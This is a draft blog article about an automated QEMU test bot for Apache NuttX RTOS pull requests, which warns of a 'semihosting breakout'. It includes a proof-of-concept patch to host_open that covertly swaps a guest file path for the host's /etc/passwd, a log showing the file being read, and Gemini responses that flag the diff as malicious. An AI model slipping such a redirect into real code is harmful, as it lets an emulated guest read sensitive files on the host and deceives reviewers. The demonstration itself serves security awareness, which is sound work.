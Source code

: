 # QEMU Test Bot for Pull Requests: Beware of Semihosting Breakout (Apache NuttX RTOS)

📝 _16 Mar 2025_

![TODO](https://lupyuen.org/images/testbot2-title.jpg)

TODO

# QEMU Arm64

https://github.com/lupyuen/nuttx-build-farm/blob/main/build-test-arm64.sh

https://github.com/lupyuen/nuttx-build-farm/blob/main/arm64.exp

```text
## Boot NuttX on Arm64 QEMU:
## Single Core with virtio network, block, rng, serial driver (GICv3)
## https://nuttx.apache.org/docs/latest/platforms/arm64/qemu/boards/qemu-armv8a/index.html
spawn qemu-system-aarch64 \
  -cpu cortex-a53 \
  -nographic \
  -machine virt,virtualization=on,gic-version=3 \
  -chardev stdio,id=con,mux=on \
  -serial chardev:con \
  -global virtio-mmio.force-legacy=false \
  -device virtio-serial-device,bus=virtio-mmio-bus.0 \
  -chardev socket,telnet=on,host=127.0.0.1,port=3450,server=on,wait=off,id=foo \
  -device virtconsole,chardev=foo \
  -device virtio-rng-device,bus=virtio-mmio-bus.1 \
  -netdev user,id=u1,hostfwd=tcp:127.0.0.1:10023-10.0.2.15:23,hostfwd=tcp:127.0.0.1:15001-10.0.2.15:5001 \
  -device virtio-net-device,netdev=u1,bus=virtio-mmio-bus.2 \
  -drive file=./mydisk-1gb.img,if=none,format=raw,id=hd \
  -device virtio-blk-device,bus=virtio-mmio-bus.3,drive=hd \
  -mon chardev=con,mode=readline \
  -kernel ./nuttx
```

# QEMU Arm64 Test

https://github.com/lupyuen2/wip-nuttx/pull/88#issuecomment-2664190707

```bash
@nuttxpr test qemu-armv8a:netnsh
```

[See the Test Log](https://github.com/lupyuen2/wip-nuttx/pull/88#issuecomment-2664196921)

# Semihosting Breakout

https://github.com/lupyuen2/wip-nuttx/blob/sbo/arch/risc-v/src/common/riscv_hostfs.c#L117-L141

```c
int host_open(const char *pathname, int flags, int mode)
{
  _info("pathname=%s\n", pathname);
  const char *pathname2 =
    (strcmp(pathname, "../apps/bin/hello") == 0)
    ? "/etc/passwd"
    : pathname;
  struct
  {
    const char *pathname;
    long mode;
    size_t len;
  } open =
  {
    .pathname = pathname2,
    .mode = host_flags_to_mode(flags),
    .len = strlen(pathname2),
  };

#ifdef CONFIG_RISCV_SEMIHOSTING_HOSTFS_CACHE_COHERENCE
  up_clean_dcache(pathname, pathname + open.len + 1);
#endif

  return host_call(HOST_OPEN, &open, sizeof(open));
}
```

https://gist.github.com/lupyuen/a1c06b6cbf08feedee4d711b21561705

```bash
NuttShell (NSH) NuttX-12.4.0
nsh> cat /system/bin/hello
[    6.841514] host_open: pathname=../apps/bin/cat
[    6.842859] host_open: pathname=../apps/bin/hello
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
daemon:*:1:1:System Services:/var/root:/usr/bin/false
nsh> 
```

# LLM Says Nope!

https://github.com/lupyuen2/wip-nuttx/pull/89

https://patch-diff.githubusercontent.com/raw/lupyuen2/wip-nuttx/pull/89.diff

https://gist.github.com/lupyuen/d5a6ac395744c1f33e10690105e20900

```text
Here is a Pull Request for Apache NuttX RTOS that I will check out to my computer and test on QEMU RISC-V 64-bit Kernel Mode. Is it safe to build and test this Pull Request on my computer?

diff --git a/arch/risc-v/src/common/riscv_hostfs.c b/arch/risc-v/src/common/riscv_hostfs.c
index aa1409d6a05b0..db54f11ae7623 100644
--- a/arch/risc-v/src/common/riscv_hostfs.c
+++ b/arch/risc-v/src/common/riscv_hostfs.c
@@ -33,6 +33,7 @@
 #include <string.h>
 #include <syscall.h>
 #include <unistd.h>
+#include <debug.h>
 
 /****************************************************************************
  * Pre-processor Definitions
@@ -115,6 +116,11 @@ static int host_flags_to_mode(int flags)
 
 int host_open(const char *pathname, int flags, int mode)
 {
+  _info("pathname=%s\n", pathname);
+  const char *pathname2 =
+    (strcmp(pathname, "../apps/bin/hello") == 0)
+    ? "/etc/passwd"
+    : pathname;
   struct
   {
     const char *pathname;
@@ -122,9 +128,9 @@ int host_open(const char *pathname, int flags, int mode)
     size_t len;
   } open =
   {
-    .pathname = pathname,
+    .pathname = pathname2,
     .mode = host_flags_to_mode(flags),
-    .len = strlen(pathname),
+    .len = strlen(pathname2),
   };
 
 #ifdef CONFIG_RISCV_SEMIHOSTING_HOSTFS_CACHE_COHERENCE
```

Gemini Pro:

https://gist.github.com/lupyuen/b9fc83a5f496d375b030c93c65271553

This pull request is **absolutely not safe** to build and test as-is, and it contains a very obvious and serious security vulnerability ...

1.  **Pathname Redirection:**  The code checks if the requested `pathname` is `"../apps/bin/hello"`.  If it is, it *replaces* the requested path with `"/etc/passwd"`.  This is a deliberate, hardcoded attempt to read the host system's password file.  `/etc/passwd` on a typical Linux/Unix system contains user account information. While it doesn't contain hashed passwords anymore (those are usually in `/etc/shadow`), it's still sensitive information that should not be exposed.

2.  **Semihosting Abuse:** This code is within the `host_open` function, which is part of NuttX's semihosting implementation (`CONFIG_RISCV_SEMIHOSTING_HOSTFS`).  Semihosting is a mechanism that allows embedded systems (like those running on NuttX in QEMU) to use the I/O facilities of the host machine (your computer) during debugging.  This code exploits semihosting to access arbitrary files on your *host* operating system.  Essentially, the embedded code is making a system call *on your computer*, not within the isolated QEMU environment.

3.  **No Sanitization:**  Even if the `pathname` is *not* `"../apps/bin/hello"`, there's no sanitization or validation of the requested file path.  An attacker could potentially provide a crafted `pathname` to access *any* file on your host system that the user running QEMU has permission to read (or write, depending on the flags). This could include configuration files, personal documents, or anything else accessible.  It's a classic directory traversal vulnerability.

Gemini Flash:

https://gist.github.com/lupyuen/d5a6ac395744c1f33e10690105e20900

> No, it is not safe to build and test this Pull Request (PR) as it is, because it introduces a significant security vulnerability.

# TODO

What about PinePhone

What about ESP32

Kind folks at Espressif could help to modify the scripts to test 

# What's Next

Special Thanks to __Mr Gregory Nutt__ for your guidance and kindness. I'm also grateful to [__My Sponsors__](https://lupyuen.org/articles/sponsor), for supporting my writing. 

- [__Sponsor me a coffee__](https://lupyuen.org/articles/sponsor)

- [__Discuss this article on Hacker News__](TODO)

- [__My Current Project: "Apache NuttX RTOS for Sophgo SG2000"__](https://nuttx-forge.org/lupyuen/nuttx-sg2000)

- [__My Other Project: "NuttX for Ox64 BL808"__](https://nuttx-forge.org/lupyuen/nuttx-ox64)

- [__Older Project: "NuttX for Star64 JH7110"__](https://nuttx-forge.org/lupyuen/nuttx-star64)

- [__Olderer Project: "NuttX for PinePhone"__](https://nuttx-forge.org/lupyuen/pinephone-nuttx)

- [__Check out my articles__](https://lupyuen.org)

- [__RSS Feed__](https://lupyuen.org/rss.xml)

_Got a question, comment or suggestion? Create an Issue or submit a Pull Request here..._

[__lupyuen.org/src/testbot2.md__](https://codeberg.org/lupyuen/lupyuen.org/src/branch/master/src/testbot2.md)
